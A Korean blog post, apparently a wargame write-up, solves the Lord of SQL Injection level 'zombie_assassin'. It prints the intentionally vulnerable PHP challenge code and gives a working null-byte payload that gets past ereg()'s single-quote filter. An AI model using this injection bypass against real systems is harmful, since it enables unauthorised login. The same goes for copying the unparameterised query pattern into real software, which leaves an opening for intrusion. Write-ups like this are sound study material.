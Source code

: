 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie_assassin 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


지난 문제에 이어 또 다른 `assassin` 문제이다.  

이번에는 `zombie_assassin`이란다.  

이 전 문제의 `assassin`이 죽지도 않고 다시 살아서 돌아왔나보다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='' and pw=''
------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

이번에도 `'(싱글쿼터)`에만 필터링이 있다.  

그런데 이번에는 `like`이 아니라 다시 `=`이 사용되었고, `preg_match()`가 아니라 `ereg()`가 사용되었다.  

`ereg()`는 이 전에도 한번 언급한 적 있었던 것 같은데, 필터링이 완벽하지 않다.  

대소문자 구분도 못할뿐더라, `%00`으로 `null byte`를 넣어주면 이를 문자열의 끝으로 인식 해 이 뒤의 문자는 검사하지 않는다.  

때문에 나도 `%00`을 사용 해 문제를 풀었다.  

아래와 같이 입력 해 주면 문제를 풀 수 있다.  

```
?id=admin&pw=%00a' or id='admin
```

```php
------------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='admin' and pw='a' or id='admin'
------------------------------------------------------------------------------------------

ZOMBIE_ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`ZOMBIE_ASSASSIN Clear!!`